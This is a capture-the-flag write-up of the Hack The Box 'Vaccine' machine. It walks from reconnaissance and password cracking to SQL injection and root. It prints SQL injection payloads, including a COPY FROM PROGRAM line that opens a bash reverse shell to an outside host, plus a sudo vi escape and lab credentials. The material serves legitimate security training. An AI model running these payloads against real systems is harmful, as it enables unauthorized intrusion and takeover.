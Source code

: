 # Vaccine Box

This is a linux box CTF on hack the box. It runs a website with a db back end.

This box was quite annoying because HTB targets are shared, multiple people are trying to hack it at once. This leads to other users deleting databases and also removing anything that I did, such as trying to inject a reverse shell. So I had to try at a few different times, sometimes rushing to avoid having what I did undone by another user dropping tables or trying the same attack as I was. 

Tools I used are:

- Kali Linux
- SQLMAP
- Netcat
- NMap
- FTP
- Dirbuster

## Let's begin

I'll start off with an Nmap scan using sV and sC flags.

![ca9f4c71647696cf9e3bc697ecfe9606.png](images/c5d54a90b9274e16a81a8e9cc9eeba00.png)

Looks like we have few services open we can look into: FTP, SSH, HTTP

A quick search in searchsploit re the FTP server shows our only exploit is a DoS which is not helpful for the challenge.

![63db284efd7c00b19ece3f3895c20012.png](images/e5db358b77c44beb98a5f292fce1442d.png)

SSH accepts password login and public key.

![44221525defbc8a2e179558f5f7fe747.png](images/ff3a70b62a9b427489a09760a2ff48f9.png)

We have a MegaCorp login page on port 80.

![837c04721ca366d886de867b75aafb1e.png](images/99280b627a0743de952d12ed6de906ec.png)

Learning from the previous challenge, I'll try the admin credentials we got from Archetype that also worked in the Oopsie CTF, to see if it works on this challenge too. Not luck this time.

Next I'll try dirbuster and see if we can find any interesting folders or files.

![b18420e6906968e08f96a760ac4dc729.png](images/5ba49a0960484c3cb21c71c3c34f099d.png)

After not finding much interesting I hit the forum and it advised that there is a credential in the last challenge that helps with this challenge. I'll load up the Oopsie box again and go hunting.

Hunting around the Oopsie box let to a filezilla configuration file in the /root/.config folder

![22194124f2c948eeaec472464a94903c.png](images/bb6f55e293954765a1275f0d32b3f2a9.png)

here are the creds, we can see this is for IP 10.10.10.46, which is our current target.

ftpuser / mc@F1l3ZilL4

No we're in to the FTP folder with those credentials.

![c421fd7a486b9f2c481ec22bcf481ff6.png](images/bb99e78659a547cb9e17b44c0a92981a.png)

In that folder we can see one file called 'backup.zip'.

I'll grab it and see what's inside.

It looks like that file is password protected.

![28e445b9bb25fe533a19c8a4f44b0ffe.png](images/78d8bc1b1a3b45ceaaa9dbc546620645.png)

I'll try some of the passwords we have from this challenge and the previous challenges.

John was able to crack the password quite easily, I used this guide:

https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux

![a25640398b5c1057dc6d423a90872428.png](images/0f237f8181b549baa3839ce02ceb0879.png)

![642cf763869db963845b356105dbfc44.png](images/bb1585013f5f4bfebc25a810d65a9539.png) ![9e7a169232f149989a71e7aa9317545d.png](images/d229b7253577480db9aab64f0b9915cc.png)

backup.zip:741852963

After unzipping the file the username and md5 password hash is accessible in the index.php file.

![2c7bfd0d5c9ef50e69fd8ac6ab6cccde.png](images/9f066a77e28b4798a490e62771aecafd.png)

MD5 Hash is: 2cb42f8734ea607eefed3b70af13bbd3

Decrypting the hash gives me the following:

admin / qwerty789

Now we're in the web portal.

![90dda03080be6d2a90f1086d1bbed086.png](images/57b5b030a5264191a4457498914b9d66.png)

Time to look around.

There is a search feature on the top right. There appears to be an injection option here as I received an error when trying a simple sql injection attack:

![c12852e8926a61ca0c4d5fdb943ab082.png](images/5803fe22235e404d8cb03fa511a476cd.png)

I'll try to use sqlmap to see if this can get me some info.

I'll use firefox inspector to capture the cookie data that sqlmap requires.

Looks like we have a PostgreSQL db, with possible injection here.

![9d35c642aa2bb38057901c4a6b06cf5b.png](images/286d179f414a4c1f98a63bf325bd87d8.png)

And we got some info

![3fdfd1f49c0eaa4e8f2253b670a7b033.png](images/2341edf52efc44a28ad0609dc39b9fb4.png)

I'll try for a shell.

Note while I was attempting this it appears that the data in the db 'dissappeared' I'm assuming another player dropped the DB. I will come back later, as it happened twice to me within a 30min period.

Coming back after another day, the data was restored to the host so I continued with my testing.

Using SQLMAP I managed to get the database names with 'dbs' flag

![ec3dd5c3a5428f69b68e8dd7680b763c.png](images/339b40ec511549c0b1fc4fe34f022860.png)

I then took a look at the tables in the public DB:

![bd82c049ecd9ff3fc0b5d754867d14a7.png](images/52366a7beb934eafb1c9c0e053c20b12.png)

Then I could obtain the data in that table with the `--dump` sqlmap flag.

![0c1c13af88dc0a61b6563356ecc75b3b.png](images/ff178f5c62ad41cd884920dd87c0b909.png)

I tried a reverse shell, but that did not seem to work with sqlmap.

Next I'll try get the user name and password ofr the db with the `--user` and `--password` flag in sqlmap

![004d2f7b21349506f6c32a642e20f986.png](images/a63a1e1597bc42b5a17e1a052b3efe81.png)

Now I will try to brute force the password with the rockyou.txt password list.

![df06301ea9e3e431f2f468b577d4cf54.png](images/7ba0deda95fe4bf9884edcb753c03747.png)

Unfortunately this did not work, the password must not be in that list.

Since I cannot get an os shell using the sqlmap builtin feature, I'll attempt to get a sql shell.

This worked.

![f7cb0557af2bc926380c22b958bbc5fa.png](images/a7eb7952811147a3a4e6b2304cae7146.png)

Now I will attempt to manually get a reverse shell, this article provides some instructions on performing and testing command injection.

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5 

Using the instructions in the above article, I ended up running the following SQL Injection commands directly into the search field of the website to get a reverse shell.

```
'; DROP TABLE IF EXISTS cmd_exec; --

'; CREATE TABLE cmd_exec(cmd_output text); --

'; COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.109/4444 0>&1"'; --
```

This finally led to a remote shell

![8177cf227345ac1b490c788617b91c86.png](images/45f8bbf39b8445bb9ed95abdc3b21cc8.png)

Since the site is user a DB, I will look through the code to see if the DB password is available.

![f9d9214f120a9fc0bc764a328f303940.png](images/4bee4dbb99f342b6a6b566267ce32a80.png)

We can see the DB password and user in the dashboard.php file

![002b28a0a45c4474faa7ac50aac3e5c3.png](images/9031eae6d4454d3f99e684bc35ec26e3.png)

postgres P@s5w0rd!

Note at this point I got kicked off, another user must have dropped my table or reset the box. So I had to redo the above attack again to re-obtain a shell.

Now that I'm back in, I'll upgrade from a simple shell with python3 -c `'import pty; pty.spawn("/bin/sh")'`

![1d6232cad372d13381beeadd0ac75b36.png](images/2aca0bc7ca804d18b98c4fa1b9d1e87a.png)

The user seems to have sudo access using vi, this can be easily exploited since vi can run shell commands. 

![0adc6e11777949fd58880ab1c8f6fc2a.png](images/aa3973eb03654d4dbd372e2339d3d5e7.png)

So I will run the above command as sudo, launching vi as root, then launch a shell with the following command in vi `:!/bin/bash`

Now I have root access

![67f14913f3bb116fa979c0fba90bbe2a.png](images/e91a82718b1743419908373c2d9ef202.png)

Finally for the flag:

![31a9d283550392adf57d52cfcee1d0e3.png](images/93960f37ca164b389c8c28c24c2bc6b2.png)